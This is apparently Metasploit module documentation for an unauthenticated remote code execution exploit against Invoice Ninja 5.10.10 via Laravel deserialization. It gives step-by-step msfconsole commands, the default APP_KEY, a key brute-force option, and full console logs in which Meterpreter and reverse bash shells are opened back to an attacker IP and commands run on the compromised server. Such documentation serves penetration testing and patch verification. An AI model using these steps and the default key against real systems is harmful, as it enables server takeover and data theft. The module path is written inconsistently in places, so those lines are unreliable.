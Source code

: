 ## Vulnerable Application
Invoice Ninja is a free invoicing software for small businesses, based on the PHP framework Laravel.
A Remote Code Execution vulnerability in Invoice Ninja (>= `5.8.22` <= `5.10.10`) allows remote unauthenticated
attackers to conduct PHP deserialization attacks via endpoint `/route/<hash>` which accepts a Laravel
ciphered value which is unsafe unserialized, if an attacker has access to the secret `APP_KEY`.
As it allows remote code execution, adversaries could exploit this flaw to execute arbitrary commands,
potentially resulting in complete system compromise, data exfiltration, or unauthorized access
to sensitive information.

The following release was tested.
* Invoice Ninja `5.10.10` on Ubuntu 22.04

## Installation steps to install Invoice Ninja on a self-hosted platform
* See [Invoice Ninja self-hosted installation](https://invoiceninja.github.io/en/self-host-installation/)

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/linux/http/invoiceninja_uauth_rce_cve_2024_55555`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=PHP Command, 1=Unix/Linux Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
### APP_KEY
This option is required if the BRUTE_FORCE option is not used.
It is the Laravel APP_KEY with a default key: `base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=`.

### BRUTEFORCE
This option is optional and is a text file with a list of APP_KEYs, one per line for a bruteforce attack.

## Scenarios
### Invoice Ninja 5.10.10 on Ubuntu 22.04 -  PHP Command target
Attack scenario: use the default Laravel APP_KEY preset in the option APP_KEY.
```msf
msf6 > use modules/exploits/linux/http/invoiceninja_unauth_rce_cve_2024_55555
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.6:443 can be exploited.
[+] The target appears to be vulnerable. Invoice Ninja 5.10.10
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the XSRF_TOKEN inside the cookie.
[*] Grabbing the cookie with the XSRF-TOKEN.
[+] APP_KEY is valid: base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=
[+] Unciphered value: e60eab8287b88f834312505e582750ae6f95a84b|6IWTnJv2f3lL1nbKRbl6LwJixPeRF5grQVTFTIuB
[*] Generate an encrypted serialization payload with our cracked APP_KEY.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 192.168.201.6
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.6:60120) at 2025-02-23 09:47:28 +0000

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-131-generic #141-Ubuntu SMP Fri Jan 10 21:18:28 UTC 2025 x86_64
Meterpreter : php/linux
meterpreter > pwd
/usr/share/nginx/invoiceninja/public
meterpreter >
```
###  Invoice Ninja 5.10.10 on Ubuntu 22.04 - Unix/Linux Command target
Attack scenario: use the BRUTEFORCE option with a list of APP_KEYS in a text file.
```msf
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set target 1
target => 1
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set BRUTEFORCE /root/laravel-crypto-killer/wordlists/invoiceninja_default.txt
BRUTEFORCE => /root/laravel-crypto-killer/wordlists/invoiceninja_default.txt
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.6:443 can be exploited.
[+] The target appears to be vulnerable. Invoice Ninja 5.10.10
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the XSRF_TOKEN inside the cookie.
[*] Grabbing the cookie with the XSRF-TOKEN.
[*] Starting bruteforce decryption with APP_KEYS listed in /root/laravel-crypto-killer/wordlists/invoiceninja_default.txt.
[+] APP_KEY is valid: base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=
[+] Unciphered value: e60eab8287b88f834312505e582750ae6f95a84b|3epElAO1qNeckBzHOytBrNnGrvRJSyeCBsahBkSO
[*] Generate an encrypted serialization payload with our cracked APP_KEY.
[*] Executing Unix/Linux Command for cmd/unix/reverse_bash
[*] Command shell session 2 opened (192.168.201.8:4444 -> 192.168.201.6:60340) at 2025-02-23 09:49:15 +0000

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux cuckoo 5.15.0-131-generic #141-Ubuntu SMP Fri Jan 10 21:18:28 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
pwd
/usr/share/nginx/invoiceninja/public
```

## Limitations
No limitations.
